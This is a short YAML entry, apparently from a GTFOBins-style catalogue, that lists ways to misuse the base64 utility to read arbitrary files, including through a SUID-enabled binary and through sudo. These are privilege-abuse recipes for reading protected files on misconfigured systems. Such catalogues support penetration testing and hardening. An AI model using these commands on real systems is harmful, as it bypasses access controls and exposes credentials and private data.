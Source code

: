 ```yaml
---
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        base64 "$LFILE" | base64 --decode
  suid-enabled:
    - code: |
        LFILE=file_to_read
        ./base64 "$LFILE" | base64 --decode
  sudo-enabled:
    - code: |
        LFILE=file_to_read
        sudo base64 "$LFILE" | base64 --decode
---
```

